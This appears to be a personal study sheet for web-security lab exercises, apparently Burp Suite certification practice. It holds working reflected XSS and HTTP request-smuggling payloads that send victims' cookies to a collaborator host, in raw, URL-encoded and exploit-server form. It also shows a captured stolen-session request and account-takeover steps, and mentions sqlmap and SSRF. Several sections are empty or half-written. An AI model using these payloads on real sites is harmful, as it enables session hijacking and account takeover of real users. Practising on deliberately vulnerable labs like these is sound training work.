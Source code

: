 # Extra 12  

## 1 - 1  
  
>Identify reflected XSS in search  

```
</ScRiPt ><img src=a onerror=document.location="https://COLLABORATOR.com/?biscuit="+document.cookie>
```  

>URL encode all b4 adding as searchterm value

```
%3c%2f%53%63%52%69%50%74%20%3e%3c%69%6d%67%20%73%72%63%3d%61%20%6f%6e%65%72%72%6f%72%3d%64%6f%63%75%6d%65%6e%74%2e%6c%6f%63%61%74%69%6f%6e%3d%22%68%74%74%70%73%3a%2f%2f%78%79%7a%62%72%6a%72%78%31%34%65%31%69%68%64%6e%75%34%6f%68%6f%7a%6f%61%66%31%6c%73%39%69%78%37%2e%6f%61%73%74%69%66%79%2e%63%6f%6d%2f%3f%62%69%73%63%3d%22%2b%64%6f%63%75%6d%65%6e%74%2e%63%6f%6f%6b%69%65%3e
```

>exploit body

```
<script>
location = "https://0a93007e04e29b2ac06b2cf100ad00fe.web-security-academy.net/?term=%3c%2f%53%63%52%69%50%74%20%3e%3c%69%6d%67%20%73%72%63%3d%61%20%6f%6e%65%72%72%6f%72%3d%64%6f%63%75%6d%65%6e%74%2e%6c%6f%63%61%74%69%6f%6e%3d%22%68%74%74%70%73%3a%2f%2f%78%79%7a%62%72%6a%72%78%31%34%65%31%69%68%64%6e%75%34%6f%68%6f%7a%6f%61%66%31%6c%73%39%69%78%37%2e%6f%61%73%74%69%66%79%2e%63%6f%6d%2f%3f%62%69%73%63%3d%22%2b%64%6f%63%75%6d%65%6e%74%2e%63%6f%6f%6b%69%65%3e"
</script>
```  

## 1 - 2  

>adv search filters - sqlmap  

```
sqlmap -u 

```  
  

>change email + set pass  

```
attacker@exploit-1234.exploit-server.net

```

## 1 - 3  

>admin file image path + size parameters ????

```

```  

## 2 - 1  

>identify `User-Agent` in blog post comment load `/post?postId=10`  

>http smuggle request  

```
POST / HTTP/1.1
Host: TARGET.net
Cookie: _lab=YESYESYESYES; _lab_analytics=YESYESYESYES; session=YESYESYESYES
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
Transfer-Encoding: Ceop4Tck
Content-Length: 795
Connection: keep-alive

1a
mug9q=x&find=fuzz2&8p7m4=x
0

GET /post?postId=10 HTTP/1.1
User-Agent: a"/><script>document.location='http://COLLABORATOR.com/?app='+document.cookie;</script>
Content-Type: application/x-www-form-urlencoded
Content-Length: 5
Cookie: _lab=YESYESYESYES; _lab_analytics=YESYESYESYES; session=YESYESYESYES

x=1
```  

>send multiple times  

>replace cookie, set email, change password for user


## 2 - 2  

>Identify password change refresh csrf ???

```

```  

>copy stolen cookie to session, update email, change password administrator  

```
GET /?APP=session=%7b%22username%22%3a%22carlos%22%2c%22isloggedin%22%3atrue%7d--blah%blah%2f%blah%2b%blah%blah%3d%3d HTTP/1.1
Host: 2psgioi2s9569m4sl9fmf4ff66cx0ood.oastify.com
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.5563.64 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US



## 2 - 3  


password change refresh csrf 

https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/blob/main/images/csrf-privesc.png


>admin function download report pdf `/adminpanel/save-metrics`  

>SSRF vulnerability, you can use it to read the files by accessing an internal-only service running on locahost on port 6566.
